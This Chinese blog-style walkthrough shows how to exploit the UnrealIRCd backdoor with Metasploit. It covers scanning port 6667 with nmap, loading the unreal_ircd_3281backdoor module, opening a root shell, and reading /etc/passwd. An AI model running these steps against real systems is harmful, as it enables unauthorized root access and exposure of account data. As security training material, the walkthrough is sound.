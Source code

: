 ```yaml
---
title: metasploit溢出UnrealIRCd后门漏洞
date: 2021-12-21 12:23:58
tags: 
    - metasploit
    - unrealircd
    - 后门
    - 漏洞
---
```


## metasploit溢出UnrealIRCd后门漏洞

### 目的：利用UnrealIRCd后门漏洞，获取目标主机的root权限

### 原理：某些站点的UnrealIRCd，在DEBUG3_DOLOG_SYSTEM宏中包含外部引入的恶意代码，远程攻击者能够执行任意代码。

### 过程：

利用nmap扫描主机，确定`6667`端口开放，对应服务为`unreal ircd`

![1](http://121.5.125.62:88/image/metasploit%E6%BA%A2%E5%87%BAUnrealIRCd%E5%90%8E%E9%97%A8%E6%BC%8F%E6%B4%9E/2.PNG)

终端输入msfconsole，进入msf后输入`search unreal ircd`，搜索相关工具和攻击载荷

![2](http://121.5.125.62:88/image/metasploit%E6%BA%A2%E5%87%BAUnrealIRCd%E5%90%8E%E9%97%A8%E6%BC%8F%E6%B4%9E/2.PNG)

终端输入命令`use exploit/unix/irc/unreal_ircd_3281backdoor`,启用漏洞模块

输入show options,查看需要设置的相关选项
![3](http://121.5.125.62:88/image/metasploit%E6%BA%A2%E5%87%BAUnrealIRCd%E5%90%8E%E9%97%A8%E6%BC%8F%E6%B4%9E/3.PNG)
设置目标ip

run或者exploit,开始攻击，攻击成功后，建立shell会话

![4](http://121.5.125.62:88/image/metasploit%E6%BA%A2%E5%87%BAUnrealIRCd%E5%90%8E%E9%97%A8%E6%BC%8F%E6%B4%9E/4.PNG)

终端输入whoami，查看权限root，输入cat /etc/passwd，查看系统账户

![5](http://121.5.125.62:88/image/metasploit%E6%BA%A2%E5%87%BAUnrealIRCd%E5%90%8E%E9%97%A8%E6%BC%8F%E6%B4%9E/5.PNG)

本机4444端口建立远程会话

